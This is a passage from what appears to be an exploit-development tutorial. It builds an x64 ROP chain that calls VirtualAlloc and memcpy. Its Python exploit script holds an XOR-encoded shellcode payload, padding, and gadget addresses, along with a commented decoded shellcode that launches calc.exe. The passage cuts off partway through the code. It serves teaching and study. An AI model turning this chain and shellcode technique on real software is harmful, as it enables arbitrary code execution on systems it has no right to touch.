 ***Time to call memcpy!***
-

Without further ado, here's the code to set and jump to memcpy.  I'll include the full code for setting 'VirtualAlloc' and 'memcpy' after this, I promise.

```python
#call memcpy!
#payload += struct.pack("<Q", 0x140001b5b)  # pop rdi, ret;
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x140007D78)  # memcpy

payload += struct.pack("<Q", 0x14000192f)  # jmp rax; 
payload += struct.pack("<Q", 0x14000192f)  # jmp rax;
```

***Bringing it all together***
-

Okay, so I realize the code I'm about to paste may be a lot to digest at first, but bear with me.  I'll go over quite a bit and include screenshots per my usual approach so you can understand all that is happening.

```python

import struct
import subprocess

payload = b"\x90\x90\x90\x90\x90\x90\x90\x90\x48\x31\xc9\x48\x8d\x35\xf8\xdd\xdd\xfd\x81\xc6\x22\x22\x22\x02\x48\x89\xf3\x48\x8d\x36\xb1\xcf\xb0\xac\x30\x06\x48\xff\xc6\x48\xff\xc9\x75\xf6\xe4\x2f\x40\x84\xe4\x2f\x48\x5c\xe4\x9d\x65\xc9\xe4\x27\xed\xcc\xe4\x27\xec\xb4\xe4\x27\xdc\xbc\xe4\x27\x9a\xe4\x27\x9a\xe4\x27\xf2\x9c\xe5\x25\x74\x27\xf7\x90\xe0\xad\x6f\xe4\x9d\x65\xca\x2d\x6d\x53\x24\xe4\x6d\x45\xa4\x27\xb8\xa7\xe0\xad\x6e\xe8\x27\xfe\xb8\xe1\x9d\x77\xe8\x27\xf6\x8c\xe1\xad\x6f\xe0\x25\x7d\xe4\x14\xfb\xc5\xc2\xe9\xd4\xc9\xcf\x3c\xe4\x6d\x4c\xa4\xe4\x6d\x44\xa4\xfc\xe4\x25\x4c\xe4\x2f\x68\xa4\xcb\x4f\xbb\x9d\x77\xed\x27\xf0\x27\xa8\xe0\xad\x6f\xe4\x53\x65\xe0\x27\xa4\xe0\x95\xa7\xd8\xaf\xd9\x4a\x60\xfd\xed\xf3\xe0\x25\x55\xe1\x9d\x77\xe8\x27\xf6\x88\xe1\xad\x6f\xe4\x53\x6d\xca\xe9\x27\x80\xe7\xe1\x9d\x77\xe8\x27\xf6\xb0\xe1\xad\x6f\xef\x27\xe8\x07\xa8\xe0\xad\x6c\xfc\xed\xf3\xe4\x9d\x6c\xfc\xe4\x14\xcf\xcd\xc0\xcf\x82\xc9\xd4\xc9\xfc\xe4\x25\x4d\xe4\x9d\x7e\xe4\x53\x6e\xe4\x2f\x40\x9c\xed\x53\x7b" #251 bytes

payload += b"\x41" * 45 # padding/junk (45 bytes)


#original, decoded shellcode for referencing
#############################################

#shellcode =  b"\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41\x60\x48\x8b"
#shellcode += b"\x40\x18\x48\x8b\x70\x10\x48\x8b\x36\x48\x8b\x36\x48\x8b\x5e\x30\x49\x89"
#shellcode += b"\xd8\x8b\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9"
#shellcode += b"\x08\x8b\x14\x0b\x4c\x01\xc2\x44\x8b\x52\x14\x4d\x31\xdb\x44\x8b\x5a\x20"
#shellcode += b"\x4d\x01\xc3\x4c\x89\xd1\x48\xb8\x57\x69\x6e\x45\x78\x65\x63\x90\x48\xc1"
#shellcode += b"\xe0\x08\x48\xc1\xe8\x08\x50\x48\x89\xe0\x48\x83\xc4\x08\x67\xe3\x17\x31"
#shellcode += b"\xdb\x41\x8b\x5c\x8b\x04\x4c\x01\xc3\x48\xff\xc9\x4c\x8b\x08\x4c\x39\x0b"
#shellcode += b"\x74\x03\x75\xe6\xcc\x51\x41\x5f\x4c\x89\xf9\x4d\x31\xdb\x44\x8b\x5a\x24"
#shellcode += b"\x4d\x01\xc3\x48\xff\xc1\x66\x45\x8b\x2c\x4b\x4d\x31\xdb\x44\x8b\x5a\x1c"
#shellcode += b"\x4d\x01\xc3\x43\x8b\x44\xab\x04\x4c\x01\xc0\x50\x41\x5f\x48\x31\xc0\x50"
#shellcode += b"\x48\xb8\x63\x61\x6c\x63\x2e\x65\x78\x65\x50\x48\x89\xe1\x48\x31\xd2\x48"
#shellcode += b"\xff\xc2\x48\x83\xec\x30\x41\xff\xd7"
#calc shellcode no nulls (207 bytes)

#payload += shellcode 

#rop gadgets for setting the R9 register value
###################################

payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
```